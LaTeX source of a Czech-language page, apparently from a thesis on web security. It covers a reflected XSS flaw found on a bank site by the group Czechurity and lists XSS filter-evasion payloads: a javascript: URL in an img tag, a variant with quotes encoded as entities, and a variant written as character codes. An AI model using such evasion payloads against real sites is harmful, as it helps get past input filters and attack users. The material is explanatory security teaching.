 \documentclass[12pt, a4paper]{report}
\begin{document}
\begin{figure}[h!]
\includegraphics[width=395px]{./examples/xss-airbank2.png}
\caption{Non-persistent XSS [Zdroj: https://twitter.com/Czechurity]}
\label{obr.airbank}
\end{figure}

Tato chyba byla objevena skupinou Czechurity (\textit{https://twitter.com/Czechurity}), která má na svědomí i kompromitaci webových stránek Unicredit bank v březnu 2013, které bylo médii chybně interpretováno jako DDoS\footnote{Distributed Denial of Service - útok, který zahlcuje službu, až dojde k jejímu pádu nebo nedostupnosti pro ostatní uživatele.}.

\subsection{Různé varianty zapsání XSS}
Výstupy na webových stránkách mohou být různým způsobem filtrovány, popřípadě může být přímo filtrován script tag. Toto lze bohužel jednoduše obejít\cite{soom.cz}. Zde několik příkladů (ale ne všechny prohlížeče toto interpretují):

\begin{lstlisting}[label=FakeImageXSS, language=HTML, caption=Schování JavaScriptu do neexistujícího obrázku]
<img src="javascript:alert('XSS');">
\end{lstlisting}

\begin{lstlisting}[label=EntityXSSReplace, language=HTML, caption=Zakázané uvozovky? Nahrazení entitami \ldots]
<img src=javascript:alert(\&quot;XSS\&quot;)>
\end{lstlisting}

\begin{lstlisting}[label=unicodeXSSFormat, language=HTML, caption=Další možností je převedení na unikód]
<img src=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;
&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;
&#39;&#88;&#83;&#83;&#39;&#41;>
\end{lstlisting}
\end{document}

